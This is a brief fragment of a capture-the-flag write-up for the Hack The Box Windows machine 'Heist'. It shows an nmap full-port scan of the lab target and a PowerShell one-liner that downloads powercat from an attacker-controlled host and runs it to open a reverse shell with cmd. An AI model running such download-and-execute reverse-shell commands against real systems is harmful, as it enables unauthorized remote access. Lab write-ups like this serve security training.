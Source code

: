 Heist - Windows machine from HTB

Initial port scanning against the target:

root@kali:~# nmap -v -p 1-65535 -sV -O -sS -T4 10.10.10.149


powershell to download the script and execute it to get reverse shell:

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.101/powercat/powercat.ps1');powercat -c 10.10.14.101 -p 9091 -e cmd"
